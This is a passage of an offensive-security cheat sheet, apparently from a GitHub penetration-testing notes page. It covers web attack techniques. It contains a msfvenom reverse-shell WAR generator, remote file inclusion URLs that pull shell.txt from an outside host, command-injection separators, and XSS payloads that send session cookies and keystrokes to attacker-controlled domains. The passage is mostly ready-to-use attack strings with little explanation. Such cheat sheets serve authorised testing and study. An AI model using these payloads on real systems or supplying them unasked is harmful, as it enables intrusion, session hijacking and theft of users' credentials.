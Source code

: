WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

### Testing 

    http://example.com/index.php?page=http://callback.com/shell.txt
    http://example.com/index.php?page=http://callback.com/shell.txt%00
    http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt
	
# Command Injection 
[Payloads](https://github.com/payloadbox)    
## Inject Input for Code Execution     

     text;echo test   #Unix only     
     echo test|     #Perl inject when open file     
     text | echo test
     text || echo test   #run 2nd cmd if error on initial      
     text & echo test   #initial cmd as bg task     
     text && echo test   #run 2nd cmd if no error on initial          
     $(echo test)   #bash specific      
     'echo test'    #Unix process substitute     
     >(echo test)    #Unix, process substitute     
    
Vulnerable PHP functions: system, exec, shell_exec, popen, proc_open, passthru, pcntl_exec    
## Stored XSS    
Stored XSS: Victim gets malicious code after view a webpage.    
Reflected XSS: code output is reflected in response to a user, common vuln in URL params (GET or POST). Usually needs social engineering as a delivery mechanism.     
Basic Payload

     <script>alert("XSS")</script>
Test Input Fields (html tag <hr>, form elements and GET params)        

     '';!--"<XSS>=&{ () }     #look for unmodified chars    
Check for HTTPOnly Cookie Flag (unable to effect cookie with JS)   

     wget --server-response https://site.com 2>&1 | grep -E "Content-Security-Policy|Set-Cookie"    
Steal Session Cookie

    <script>fetch('https://site.com/page?cookie=' + btoa(document.cookie));</script>   
    <script>document.location='http://attack.com/page.php?c='+document.cookie</script>        
Record Keys Entered     

     <script>document.onkeypress = function(e) { fetch('https://site.com/log?key=' + btoa(e.key) );}</script>          

## SQL Injection 
[SQL Injection Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) 
[Pentestmonkey Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)  
Enum using nmap
